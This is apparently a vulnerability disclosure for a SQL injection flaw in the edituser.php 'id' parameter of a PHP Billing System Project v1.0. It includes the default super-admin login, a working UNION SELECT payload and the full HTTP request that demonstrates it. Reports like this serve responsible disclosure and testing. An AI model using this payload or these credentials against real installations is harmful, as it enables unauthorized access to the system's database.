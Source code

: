 # Billing System Project v1.0 by mayuri_k has SQL injection

BUG_Author: Mogui Dong

Login account: mayurik/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14831/billing-system-project-php-source-code-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /phpinventory/edituser.php?id=

Vulnerability location: /phpinventory/edituser.php?id=, id

dbname = store1,length=6

[+] Payload: /phpinventory/edituser.php?id=-1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /phpinventory/edituser.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191214458-3236be1e-02e3-402a-94a3-ffa2bdd2d05d.png)
